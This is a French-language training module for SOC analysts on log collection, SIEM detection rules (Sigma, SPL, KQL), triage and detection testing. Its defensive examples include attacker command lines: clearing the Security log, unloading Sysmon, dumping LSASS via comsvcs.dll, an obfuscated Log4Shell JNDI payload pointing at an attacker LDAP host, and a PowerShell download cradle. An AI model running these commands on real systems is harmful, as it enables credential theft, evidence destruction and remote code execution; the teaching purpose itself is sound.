


# Analyste SOC et surveillance des événements

## Objectifs pédagogiques

À la fin de ce module, vous saurez :

- **Cartographier** les sources de télémétrie d'un SI (poste, réseau, identité, application, cloud) et **identifier** leurs angles morts avant qu'un attaquant ne les trouve.
- **Configurer** la collecte Windows et Linux pour qu'un SIEM (Security Information and Event Management) reçoive des événements exploitables, sans saturer son budget de stockage.
- **Écrire et tester** une règle de détection au format Sigma, rattachée à MITRE ATT&CK (Adversarial Tactics, Techniques, and Common Knowledge).
- **Qualifier** une alerte : enrichir, pivoter, corroborer avec une seconde source, puis décider d'escalader ou de clore.
- **Mesurer et améliorer** un cas d'usage de détection (précision, volume, exclusions) sans créer d'angle mort.

## Mise en situation

*Scénario illustratif : les chiffres sont inventés pour l'exemple.*

Un SOC (Security Operations Center) supervise 1 800 postes. L'alerte « PowerShell encoded command » sort pour la quarantième fois du mois. L'analyste de garde sait d'où elle vient : un script d'inventaire déployé par l'équipe poste utilise `-EncodedCommand`. Il ajoute une exclusion sur toute ligne de commande contenant `-enc`, et la file de tickets se vide.

Trois semaines plus tard, un poste de la comptabilité exécute `powershell.exe -nop -w hidden -enc <BASE64>` avec `winword.exe` comme processus parent. C'est la chaîne classique d'une macro piégée. Aucune alerte ne sort, car l'exclusion couvre tout le parc. L'EDR (Endpoint Detection and Response) a pourtant enregistré l'événement. Personne ne l'a vu, parce que personne n'interroge la télémétrie brute.

Le défaut inverse existe aussi. Une équipe qui traite chaque alerte comme une compromission épuise ses analystes en quelques semaines. Elle finit par déclarer « compromission confirmée » à la direction sur la base d'un seul signal heuristique.

Ajouter des règles ou des outils n'aide pas dans ces deux cas. Ce qui manque, c'est la qualité du signal, le contexte pour le lire et une discipline de décision. C'est le sujet de ce module.

## Fonctionnement d'un SOC : supervision et détection

Un SOC fait trois choses, et la troisième est celle qu'on oublie :

1. **Superviser** : faire arriver les événements au bon endroit, et savoir quand ils n'arrivent plus.
2. **Détecter** : transformer ces événements en alertes via des règles, des signatures et des analyses de comportement.
3. **Faire évoluer la détection** : chaque faux positif et chaque incident manqué doit modifier une règle, une source ou une exception.

Le SOC s'arrête à la qualification et à l'escalade. La conduite de l'incident (confinement, éradication, gestion de crise) relève du module suivant.



L'organisation dépend de contraintes économiques plus que de modèles théoriques. Tenir un poste d'analyste 24h/24 demande de l'ordre de cinq à six équivalents temps plein, une fois les congés, les rotations et les arrêts comptés. Beaucoup d'entreprises choisissent donc un SOC en heures ouvrées, complété par une astreinte ou un prestataire (MSSP, Managed Security Service Provider) pour la nuit. Le découpage en niveaux N1, N2 et N3 est courant, mais ce qui compte vraiment est de savoir qui a le droit de modifier une règle et qui a le droit de clore une alerte.

Deux indicateurs structurent le pilotage. Le MTTD (Mean Time To Detect) mesure le délai entre le début d'une activité malveillante et son alerte. Le temps de qualification mesure le délai entre l'alerte et la décision. Le premier dépend de vos sources et de vos règles, le second de votre processus de triage.

> 🧠 **Concept clé** : un SOC ne voit que ce qui est journalisé, collecté, parsé et corrélé. Une défaillance à n'importe quel maillon se traduit par du silence, et le silence ressemble à de la sécurité.
{: .callout .callout-important}

## Surface de visibilité : ce que le SOC voit et ne voit pas

Pour un SOC, la surface à cartographier est celle de la visibilité. Chaque source répond à une question précise et laisse un angle mort que l'attaquant connaît.

| Source | Ce qu'elle voit | Angle mort | Techniques ATT&CK typiques |
|---|---|---|---|
| Journal Windows Security + Sysmon | Création de processus (4688 / Sysmon 1), connexions (4624/4625), accès à LSASS (Sysmon 10) | Rien si l'audit n'est pas activé ; journaux effaçables localement | T1003.001, T1053.005 |
| EDR | Arbre de processus, injection mémoire, fichiers écrits | Hôtes sans agent, agent désactivé, serveurs legacy | T1059, T1055 |
| Identité (Active Directory, fournisseur d'identité cloud) | Tickets Kerberos (4768/4769), connexions, MFA, changements de groupes | Authentification locale hors contrôleur de domaine, jetons volés | T1078, T1558.003 |
| DNS, proxy, pare-feu | Destinations, volumes, domaines rares | URL complète invisible sans inspection TLS | T1071, T1567 |
| NDR (Network Detection and Response) / IDS (Intrusion Detection System) : Zeek, Suricata | Flux est-ouest, métadonnées TLS, signatures | Segments non mirroirés, contenu chiffré | T1021.002, T1046 |
| Applications web | Access logs, erreurs, WAF | Corps des requêtes POST et certains en-têtes rarement journalisés | T1190 |
| Journaux d'audit cloud | Appels d'API, connexions, changements IAM | Événements de données désactivés par défaut ou facturés à part | T1078.004 |

Côté attaquant, la détection est rarement attaquée de front. On passe là où personne ne regarde :

- **Outils légitimes détournés** : `certutil`, `mshta`, `rundll32`, PowerShell. Ils sont signés Microsoft et présents partout, donc les signatures de fichiers ne disent rien.
- **Comptes valides** : un mot de passe devine ou volé produit des événements parfaitement normaux.
- **Effacement et neutralisation des journaux** : une fois administrateur local, l'attaquant s'en prend à ce qui l'observe.

> 🔴 **Vecteur d'attaque** : `wevtutil cl Security` efface le journal Security (événement 1102 généré). `fltmc unload SysmonDrv` décharge le pilote Sysmon. L'arrêt du service de l'agent EDR est la troisième variante courante (T1562.001). Dans les trois cas, si les événements n'ont pas déjà quitté la machine, la preuve disparaît.
{: .callout .callout-danger}

> 🔒 **Contrôle de sécurité** : envoyer les événements en quasi temps réel vers un stockage que l'attaquant local ne peut pas modifier, et alerter sur les événements 1102 (journal Security effacé) et 104 (journal System effacé). Surtout, alerter sur le **silence** : un hôte qui cesse d'émettre est un signal.
{: .callout .callout-securite}

## Configuration sécurisée de la collecte

Par défaut, Windows n'enregistre pas la ligne de commande dans l'événement 4688, et le journal Security est plafonné à 20 Mo. Sur un contrôleur de domaine actif, cela représente quelques heures de rétention. La collecte « par défaut » est donc inutilisable pour la détection.

**Windows, en élevé** (en production, via GPO) :

```
auditpol /set /subcategory:"Process Creation" /success:enable
auditpol /set /subcategory:"Logon" /success:enable /failure:enable
auditpol /set /subcategory:"Kerberos Service Ticket Operations" /success:enable /failure:enable
auditpol /set /subcategory:"Other Object Access Events" /success:enable
auditpol /set /subcategory:"Security Group Management" /success:enable
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" /v EnableScriptBlockLogging /t REG_DWORD /d 1 /f
wevtutil sl Security /ms:1073741824
sysmon64.exe -accepteula -i <SYSMON_CONFIG>.xml
```

La configuration Sysmon est un travail d'équipe. Partez d'une base publique maintenue (par exemple SwiftOnSecurity ou sysmon-modular) et adaptez-la à votre parc plutôt que de l'écrire de zéro.

**Linux** : auditd pour les exécutions et les fichiers sensibles, `rsyslog` pour l'envoi chiffré.

```
# /etc/audit/rules.d/soc.rules
-a always,exit -F arch=b64 -S execve -k exec_log
-a always,exit -F arch=b32 -S execve -k exec_log
-w /etc/passwd -p wa -k passwd_change
-w /etc/sudoers -p wa -k sudoers_change
```

Charger avec `augenrules --load`. Ensuite l'envoi vers le SIEM :

```
# /etc/rsyslog.d/90-siem.conf  (paquet rsyslog-gnutls requis)
global(DefaultNetstreamDriver="gtls" DefaultNetstreamDriverCAFile="<CA_FILE>")
action(type="omfwd" target="<SIEM_HOST>" port="6514" protocol="tcp"
       StreamDriver="gtls" StreamDriverMode="1"
       StreamDriverAuthMode="x509/name" StreamDriverPermittedPeers="<SIEM_HOST>"
       queue.type="LinkedList" queue.filename="fwd_siem"
       action.resumeRetryCount="-1" queue.saveOnShutdown="on")
```

La file sur disque (`queue.filename`) évite de perdre les événements quand le SIEM est indisponible. Sans elle, une maintenance de nuit crée un trou de plusieurs heures dans vos données.

> ⚠️ **Erreur fréquente** : filtrer auditd avec `-F auid>=1000 -F auid!=4294967295` pour réduire le volume. Les processus de service ont un `auid` non défini (4294967295, soit -1 non signé), que le second filtre exclut. Le `www-data` qui lance `/bin/sh` après l'exploitation d'une application web disparaît donc de vos journaux, alors que c'est exactement ce qu'on cherche. Correction : garder les `execve` sans filtre `auid`, et exclure le bruit par processus parent ou par chemin.
{: .callout .callout-attention}

### Durcir le SIEM lui-même

Le SIEM contient l'historique de tout votre SI. Pour un attaquant qui l'atteint, c'est à la fois une source de renseignement et un moyen d'effacer ses traces.

| Mesure | Coût réel |
|---|---|
| Comptes d'administration du SIEM distincts de l'AD d'entreprise, avec MFA | Gestion d'un second annuaire ou d'un fournisseur d'identité dédié |
| Droit de suppression d'index limité à 1 ou 2 comptes, avec alerte sur toute suppression | Procédure de demande pour les purges légitimes |
| Archive froide en stockage immuable (par exemple un bucket avec verrouillage d'objet) | Coût de stockage, latence de recherche sur l'archive |
| Alerte sur toute modification de règle, d'exclusion ou de source de données | Un flux de tickets à relire |
| Synchronisation NTP vérifiée sur toutes les sources | Surveillance du décalage à mettre en place |

Le volume est un autre arbitrage. Les licences SIEM se facturent souvent au Go ingéré, donc tout journaliser est un luxe. Deux événements Windows illustrent le piège : 5156 (connexion autorisée par le pare-feu) et 4663 (accès à un objet) produisent un volume énorme pour une valeur de détection faible. On les filtre à la source. Les événements à forte valeur (authentification, création de processus, modification de groupes) restent en recherche rapide. Le reste va en stockage moins cher, utile pour l'investigation mais pas pour l'alerte.

## SIEM : ingestion, corrélation, recherche et alerting

Un SIEM* est un pipeline avant d'être une interface : ingestion → parsing → normalisation → index → règles. Chaque étape peut casser en silence.

Deux points techniques font perdre des heures :

- **Temps d'événement et temps d'indexation.** Si un agent réexpédie un lot de journaux avec 40 minutes de retard, une règle fenêtrée sur 10 minutes ne les verra jamais ensemble. Le fuseau horaire mal parsé produit le même effet, avec une timeline fausse à la clé.
- **Normalisation.** Un champ source nommé `src_ip` dans un journal et `Source_Network_Address` dans un autre oblige à écrire une règle par format. Un modèle commun (CIM, Common Information Model, chez Splunk ; ECS, Elastic Common Schema, chez Elastic) permet une règle par comportement.

*\* SIEM : plateforme qui collecte, normalise, stocke et interroge les journaux de nombreuses sources pour produire des alertes.*

### Un exemple : le password spraying

Le password spraying (T1110.003) contourne le verrouillage de compte. L'attaquant essaie **un seul mot de passe** (`Printemps2025!`, `<NomEntreprise>2025!`) sur des centaines de comptes, en restant sous le seuil de verrouillage. Les outils courants sont `kerbrute passwordspray`, `MSOLSpray` ou Hydra.

Une règle « plus de 5 échecs pour un même compte » ne se déclenche jamais, puisque chaque compte n'en reçoit qu'un. Il faut compter les **comptes distincts par source** :

```
index=wineventlog EventCode=4625 Logon_Type IN (3,8,10)
| bin _time span=10m
| stats count AS echecs dc(Account_Name) AS comptes by _time, Source_Network_Address
| where comptes >= 10 AND echecs < comptes*5
```

Équivalent KQL (Microsoft Sentinel) :

```
SecurityEvent
| where EventID == 4625
| summarize Echecs=count(), Comptes=dcount(TargetUserName) by IpAddress, bin(TimeGenerated, 10m)
| where Comptes >= 10 and Echecs < Comptes * 5
```

Les noms de champs dépendent de l'add-on ou du connecteur utilisé.

Cette règle a trois limites à connaître :

1. `kerbrute` interroge Kerberos directement. Il génère des 4768 en échec (code 0x6, utilisateur inconnu) et des 4771 (code 0x18, mauvais mot de passe) sur le contrôleur de domaine, pas des 4625. Il faut une règle sur ces événements.
2. Un spray distribué sur beaucoup d'adresses IP contourne le regroupement par source. Il faut alors regrouper par compte : beaucoup de comptes avec un seul échec dans la même fenêtre.
3. La vraie corrélation à valeur ajoutée est la séquence : échecs répétés **puis** un 4624 réussi depuis la même source dans les 30 minutes. C'est cette alerte-là qui justifie une sévérité haute.

### Alerter sans noyer

Une règle sans déduplication transforme un spray de 10 minutes en 300 tickets. Définissez pour chaque règle une clé de regroupement (source, compte ou hôte), une fenêtre de suppression (typiquement 1 heure) et une sévérité qui dépend du contexte, pas seulement du type de signal. Le même signal sur un poste de test et sur un contrôleur de domaine n'a pas la même sévérité.

## EDR, NDR, IDS : trois points de vue, trois angles morts

Ces outils répondent à des questions différentes, et on se trompe en les prenant pour des équivalents.

- **EDR** : que fait ce processus ? Il voit l'arbre `winword.exe → powershell.exe → rundll32.exe` et les appels mémoire. Il ne voit pas un équipement réseau ou un hôte sans agent. Le piège est de ne lire que son verdict. Le statut « blocked » signifie qu'une étape a été arrêtée, pas que la chaîne d'attaque n'a pas commencé ailleurs : il faut remonter au vecteur d'entrée (mail, téléchargement, session distante).
- **IDS** (Suricata, Snort) : cette requête correspond-elle à une signature connue ? Il est précis pour ce qu'il connaît, aveugle pour le reste, et très limité sur le trafic chiffré sans déchiffrement.
- **NDR** (Zeek, produits commerciaux) : que se passe-t-il entre les machines ? Zeek ne fait pas de verdict, il produit des métadonnées (`conn.log`, `dns.log`, `ssl.log`) qui permettent de retrouver du beaconing, des tunnels DNS ou des mouvements latéraux.

Un exemple de règle locale Suricata pour Log4Shell (CVE-2021-44228) montre à la fois l'intérêt et la limite d'une signature :

```
alert http any any -> $HOME_NET any (msg:"LOCAL Log4Shell JNDI in URI"; flow:established,to_server; http.uri; content:"${jndi:"; nocase; sid:1000001; rev:1;)
```

> 🔴 **Vecteur d'attaque** : l'attaquant place le payload dans `User-Agent` ou `X-Api-Version`, pas seulement dans l'URI. Il l'obfusque aussi avec `${${lower:j}ndi:${lower:l}dap://<ATTACKER>/a}`. La règle ci-dessus ne voit ni l'un ni l'autre. Les signatures commerciales couvrent plusieurs buffers et variantes. Elles ne couvrent jamais tout, ce qui oblige à corroborer avec le comportement du serveur (connexion sortante vers un LDAP externe, processus enfant de Java).
{: .callout .callout-danger}

> 💡 **Astuce** : sur les captures de test, `suricata -r <PCAP> -l <OUT_DIR> -k none` désactive la vérification des checksums. Les captures prises sur une interface avec offloading ont des checksums invalides et sinon le trafic est ignoré.
{: .callout .callout-astuce}

## MITRE ATT&CK et règles de détection

ATT&CK* est un vocabulaire commun : une **tactique** dit pourquoi l'attaquant agit (accès aux identifiants), une **technique** dit comment (T1003, OS Credential Dumping), une **procédure** dit avec quoi (`rundll32 comsvcs.dll, MiniDump`). Les règles se rédigent au niveau des procédures observées, l'étiquette ATT&CK sert à mesurer la couverture.

*\* ATT&CK : base de connaissances publique qui décrit les comportements des attaquants observés en conditions réelles, organisée en tactiques, techniques et sous-techniques.*

Exemple de règle Sigma, indépendante du SIEM :

```yaml
title: Suppression des clichés instantanés via vssadmin
id: <UUID>
status: test
description: Suppression de shadow copies, étape fréquente avant un chiffrement de données
logsource:
  category: process_creation
  product: windows
detection:
  selection_img:
    Image|endswith: '\vssadmin.exe'
  selection_cli:
    CommandLine|contains|all:
      - 'delete'
      - 'shadows'
  condition: selection_img and selection_cli
falsepositives:
  - Scripts de maintenance de sauvegarde (rares, à lister nominativement)
level: high
tags:
  - attack.impact
  - attack.t1490
```

Une règle Sigma se convertit vers le langage de votre SIEM avec la commande `sigma convert`. Le nom du backend et du pipeline de mapping (`<PIPELINE>`) dépend de la version de pySigma et du SIEM, vérifiez-le dans la documentation de l'outil.

### Un exemple dans le détail : l'accès à LSASS

Pour extraire des identifiants en mémoire (T1003.001), l'attaquant ouvre le processus `lsass.exe`. Il le fait avec Mimikatz, avec `procdump -ma lsass.exe`, ou avec un LOLBin : `rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <PID> dump.bin full`. L'événement Sysmon 10 (ProcessAccess) enregistre l'accès, avec le champ `GrantedAccess`. Les valeurs `0x1010` et `0x1FFFFF` sont typiques d'un outil de dump.

Le problème est que les antivirus, l'EDR et certains agents de sauvegarde ouvrent aussi LSASS. Brut, la règle génère des centaines d'alertes. On construit donc une liste d'autorisation par `SourceImage` signé et par chemin, et on alerte sur tout le reste. C'est de l'ingénierie de détection, pas de la configuration.

> ⚠️ **Erreur fréquente** : présenter une carte ATT&CK « verte » comme une preuve de couverture. Une règle sur T1059.001 ne couvre qu'une variante de la technique, avec une source de données précise. La couverture réelle se mesure en rejouant des procédures (voir plus bas), pas en comptant des cases.
{: .callout .callout-attention}

### Contrôles de détection prioritaires

| Source | Événement ou signal | Technique | Ce qu'il faut vérifier avant d'escalader |
|---|---|---|---|
| Windows Security | 1102 (journal effacé) | T1070.001 | Compte et heure ; intervention d'administration planifiée ? |
| Windows System | 104, 7045 (service installé) | T1070.001, T1543.003 | Chemin du binaire, signature, hôte habituel de cet admin |
| Windows Security | 4698 (tâche planifiée créée) | T1053.005 | Action de la tâche, compte exécutant, création à distance ? |
| Windows Security | 4732 / 4728 (ajout à un groupe) sur groupes privilégiés | T1098 | Ticket de changement correspondant |
| Contrôleur de domaine | 4769 avec chiffrement 0x17 (RC4) | T1558.003 | Voir ci-dessous |
| Sysmon | 10 sur `lsass.exe` avec `GrantedAccess` 0x1010 | T1003.001 | Processus source, signature, fichier de dump présent ? |
| Zeek | `dns.log` : sous-domaines très longs, requêtes TXT en rafale | T1071.004 | Domaine rare dans l'entreprise, cadence régulière |
| Zeek | `conn.log` : connexions à intervalle très régulier | T1071 | Destination rare, volume faible, durée constante |

Le Kerberoasting (T1558.003) mérite une explication. Tout utilisateur du domaine peut demander un ticket de service pour un compte avec SPN ; le KDC chiffre ce ticket avec une clé dérivée du mot de passe du compte de service. L'attaquant le casse hors ligne, sans autre alerte réseau (`GetUserSPNs.py` d'Impacket, `Rubeus kerberoast`). Côté détection, on cherche un même compte qui demande plusieurs services en quelques minutes, avec chiffrement RC4 (0x17), pour des noms de service qui ne finissent pas par `$` et ne sont pas `krbtgt`. Les applications anciennes qui exigent RC4 créent du bruit : il faut les inventorier.

> 🔒 **Contrôle de sécurité** : créer un compte leurre avec un SPN attractif, qu'aucun service réel n'utilise. Toute demande de ticket pour ce compte est suspecte, avec un taux de faux positifs proche de zéro. Réduire l'exposition à la source aide aussi : comptes de service gérés (gMSA) pour les services qui le permettent, AES imposé via `msDS-SupportedEncryptionTypes`.
{: .callout .callout-securite}

## Triage, enrichissement et escalade

Le triage est une enquête courte : 10 à 20 minutes pour décider, pas pour résoudre. Un ordre de grandeur pour cadrer la discipline : si une alerte demande plus, c'est le signe qu'il faut escalader ou que la règle manque de contexte.



### Exemple : reprendre l'alerte du début

L'alerte porte sur `WKS-0142`, ligne de commande `powershell.exe -nop -w hidden -enc <BASE64>`, parent `winword.exe`. La première question est le contenu. Un `-EncodedCommand` PowerShell est du base64 sur du texte UTF-16LE, et un simple `base64 -d` donne du bruit :

```
echo 'dwBoAG8AYQBtAGkA' | base64 -d | iconv -f UTF-16LE -t UTF-8
```

Cette commande affiche `whoami`. Sur un vrai cas, on obtient souvent un téléchargeur du type `IEX (New-Object Net.WebClient).DownloadString('http://...')`.

Ensuite, trois enrichissements dans l'ordre :

1. **Prévalence interne** : ce hash, cette ligne de commande ou ce domaine ont-ils été vus sur d'autres hôtes dans les 30 derniers jours ? Sur 800 postes, c'est probablement un logiciel. Sur un seul, c'est intéressant.
2. **Réputation externe** (VirusTotal, AbuseIPDB, WHOIS) : utile comme indice, jamais comme verdict. Un hash détecté par 3 moteurs sur 70 est une heuristique, pas une conclusion.
3. **Pivot** : que s'est-il passé sur cet hôte dans l'heure avant et après (connexions sortantes, processus enfants, tâches créées) ? Le même utilisateur apparaît-il ailleurs ? Le même domaine a-t-il été contacté par d'autres machines ?

Le verdict se range dans quatre catégories : vrai positif, vrai positif bénin (le comportement est réel mais autorisé, comme le script d'inventaire), faux positif (la règle s'est déclenchée à tort) et indéterminé. La catégorie « vrai positif bénin » est la plus utile, car elle conduit à affiner la règle plutôt qu'à la désactiver.

### Escalader : le contenu du dossier

Une escalade qui oblige l'équipe suivante à tout refaire est une mauvaise escalade. Le dossier contient :

- l'alerte d'origine et les horodatages **en UTC** ;
- ce qui est observé (faits) et ce qui est supposé (hypothèses), séparés ;
- les sources déjà consultées et celles qui ne l'ont pas été ;
- l'actif concerné, son rôle et son propriétaire ;
- un niveau d'urgence justifié par le contexte, pas par le nom de la règle.

## Une alerte n'est pas une preuve suffisante de compromission

> ⚠️ C'est la discipline centrale du métier. Une alerte est **une hypothèse produite par une règle**. Elle devient une conclusion quand des observations indépendantes la corroborent. On distingue trois niveaux :
{: .callout .callout-attention}

1. **Alerte** : une règle ou un modèle a émis un signal.
2. **Télémétrie corroborante** : une seconde source indépendante (réseau, identité, EDR) confirme.
3. **Artefact** : un fait vérifiable (processus exécuté, connexion établie, fichier présent, ticket Kerberos émis).

| Alerte | Ce qu'elle établit réellement | Ce qu'il faut pour conclure |
|---|---|---|
| Suricata : JNDI dans l'URI | Une requête contenant la chaîne est arrivée au capteur | Connexion sortante LDAP/DNS depuis le serveur vers l'extérieur, processus enfant du processus Java |
| EDR : lecture mémoire de LSASS | Un processus a ouvert LSASS avec des droits de lecture | Identité et signature du processus, fichier de dump, authentifications anormales ensuite avec ce compte |
| Spray puis 4624 réussi | Une connexion a réussi après des échecs depuis la même source | Compte hors MFA ? Appareil et pays inhabituels ? Actions après connexion (règles de boîte mail, nouvelle méthode MFA) |
| Hash détecté par 3 moteurs sur 70 | Quelques éditeurs ont une heuristique positive | Comportement observé, prévalence interne, éditeur et signature du binaire |

La règle fonctionne dans les deux sens. Ne pas écrire « poste compromis » dans un ticket quand on a seulement « activité suspecte, non confirmée » : les mots engagent une chaîne de décisions, et parfois un salarié. À l'inverse, ne pas clore une alerte parce qu'elle ressemble à du bruit habituel : un scanner d'Internet qui envoie du Log4Shell est du bruit, celui qui obtient une réponse 200 et déclenche une connexion sortante ne l'est plus.

> 🧠 **Concept clé** : le triage consiste à chercher une deuxième source qui contredit ou confirme la première. Avoir un seul signal, c'est avoir une hypothèse.
{: .callout .callout-important}

## Création et amélioration de cas d'usage de détection

Un cas d'usage est une règle, ses sources de données, sa documentation de triage et ses métriques. Traité comme du code, il se versionne et se teste.

| Étape | Livrable | Critère de passage |
|---|---|---|
| Hypothèse | Technique ATT&CK visée, procédure précise, acteur de menace plausible | On sait dire ce qu'on cherche et pourquoi ça compte ici |
| Disponibilité des données | Source identifiée, champs vérifiés | L'événement est réellement collecté, avec le champ nécessaire |
| Écriture | Règle Sigma ou requête native | Relue par une seconde personne |
| Test | Rejeu d'une procédure (Atomic Red Team ou équivalent) | La règle se déclenche sur l'activité simulée |
| Rétro-test | Exécution sur 30 jours d'historique | Volume, taux de faux positifs et causes connus |
| Déploiement | Sévérité, déduplication, fiche de triage | L'analyste sait quoi vérifier en lisant l'alerte |
| Revue | Métriques à 30 et 90 jours | Décision : garder, ajuster ou retirer |

Le rétro-test évite le piège classique de la règle qui produit 400 alertes le premier jour. Le critère de décision est la **précision** (alertes confirmées sur alertes totales) et le volume quotidien rapporté à la capacité de l'équipe. Aucun seuil ne vaut pour tous : une règle sur la suppression des shadow copies peut tolérer 50 % de faux positifs si elle sonne 2 fois par mois, mais pas une règle qui sonne 80 fois par jour.

### Exclure sans aveugler

L'erreur du début de ce module se corrige dans la forme de l'exclusion. Une exclusion doit combiner plusieurs conditions précises et avoir une date de fin :

```yaml
filter_inventaire:
  ParentImage|endswith: '\<LANCEUR_INVENTAIRE>.exe'
  User: '<COMPTE_SERVICE_INVENTAIRE>'
  CommandLine|contains: '<EMPREINTE_COMMANDE_DE_REFERENCE>'
# Exception demandée dans <TICKET>, à revoir le <DATE>
condition: selection and not filter_inventaire
```

Trois conditions (parent, compte, empreinte de la commande) rendent l'exclusion difficile à imiter par un attaquant. Elles coûtent un peu plus de maintenance qu'un `NOT CommandLine="*-enc*"`, mais c'est le prix d'une exception qui ne devient pas une porte.

Le fonctionnement « detection as code » (règles dans Git, validation automatique, déploiement par pipeline) apporte une relecture, un historique des changements et un retour arrière. La validation de syntaxe se fait avec `sigma check`. La contrepartie est de former les analystes à Git, ce qui prend du temps.

## Tests de sécurité : vérifier que la détection fonctionne

Une règle n'existe que si on a prouvé qu'elle se déclenche. Quelques vérifications à pratiquer régulièrement :

| Test | Commande | Résultat attendu |
|---|---|---|
| L'événement est produit | `wevtutil qe Security /q:"*[System[(EventID=4688)]]" /c:3 /rd:true /f:text` | La ligne de commande apparaît dans l'événement |
| L'événement arrive au SIEM | Recherche du même événement dans le SIEM | Présent, avec le bon fuseau horaire |
| Le retard d'ingestion est maîtrisé | `... \| eval lag=_indextime-_time \| stats avg(lag) perc95(lag) by sourcetype` (SPL) | Retard inférieur à la fenêtre de vos règles |
| Les hôtes silencieux sont repérés | `\| tstats latest(_time) AS last WHERE index=wineventlog BY host \| where last < relative_time(now(),"-30m")` (SPL) | Liste vide, ou connue |
| Une signature réseau réagit | `suricata -r <PCAP> -l <OUT_DIR> -k none` puis `jq -c 'select(.event_type=="alert") \| {ts:.timestamp, sig:.alert.signature, src:.src_ip}' <OUT_DIR>/eve.json` | L'alerte attendue apparaît |
| Métadonnées Zeek exploitables | `zeek -r <PCAP>` puis `zeek-cut id.orig_h id.resp_h id.resp_p < conn.log \| sort \| uniq -c \| sort -rn \| head` | Les destinations les plus fréquentes sont connues |
| Rejeu d'une technique | `Invoke-AtomicTest T1053.005 -TestNumbers 1` puis `-Cleanup` | Alerte 4698 ou règle associée déclenchée |
| Conversion de règle | `sigma convert -t <BACKEND> -p <PIPELINE> <RULE_FILE>` | Requête valide pour votre SIEM |

> 💡 **Astuce** : lancez `Invoke-AtomicTest <TECHNIQUE> -ShowDetails` avant toute exécution pour lire ce que fait le test. Certains tests sont destructeurs (la suppression des shadow copies, T1490, en est un). À exécuter uniquement sur une machine de laboratoire ou autorisée, avec un instantané disponible. Les numéros de tests varient selon la version.
{: .callout .callout-astuce}

Pour détecter la beaconing, un `sort | uniq -c` ne suffit pas : la régularité temporelle est le signal. Des outils comme RITA calculent cette régularité sur les journaux Zeek.

## Cas réel en entreprise (scénario illustratif)

*Scénario construit pour l'exemple, tous les chiffres sont inventés. Il ne correspond à aucun incident réel.*

Une entreprise de 1 800 postes décide de couvrir le password spraying. Elle suit le cycle précédent :

1. **Hypothèse** : les comptes de messagerie exposés sur Internet sont la cible la plus probable.
2. **Données** : les journaux de connexion du fournisseur d'identité sont collectés, avec l'adresse source et le résultat.
3. **Rétro-test sur 30 jours** : 340 correspondances. 310 viennent d'une seule adresse interne : un multifonction qui envoie des numérisations par mail avec un mot de passe de compte de service expiré, retenté en boucle.
4. **Exclusion ciblée** : adresse source + compte de service + date de revue.
5. **Restant** : 30 correspondances, dont 3 sprays réels depuis des adresses d'hébergeurs, et une connexion réussie sur un compte sans MFA.

L'analyste ne conclut pas à la compromission au vu de la seule alerte. Il vérifie que la connexion réussie provient d'un pays et d'un appareil jamais vus, puis cherche ce qui suit : une règle de transfert créée dans la boîte mail dans les 10 minutes. Il la trouve. Il escalade avec un dossier qui sépare faits, hypothèses et sources non consultées. La suite relève du module suivant.

Leçons tirées par l'équipe :

- Le rétro-test a économisé plus de 300 alertes inutiles par mois.
- Sans la seconde source (l'activité post-connexion), l'alerte restait une hypothèse.
- Le compte sans MFA était un écart de configuration, pas un échec de détection : le SOC a transmis le constat à l'équipe identité.

## Erreurs fréquentes

| Configuration dangereuse | Conséquence | Correction |
|---|---|---|
| Exclusion par motif large (`*-enc*`, hôte entier, utilisateur entier) | Angle mort exploitable par n'importe quel attaquant | Exclusion à trois conditions (parent, compte, empreinte), date de revue, ticket de référence |
| 4688 sans ligne de commande, journal Security à 20 Mo | Alertes impossibles à qualifier, rétention de quelques heures | `ProcessCreationIncludeCmdLine_Enabled=1`, `wevtutil sl Security /ms:<TAILLE>`, envoi continu |
| Horloges non synchronisées ou fuseau mal parsé | Timeline fausse, corrélations ratées | Vérifier NTP, comparer temps d'événement et temps d'indexation |
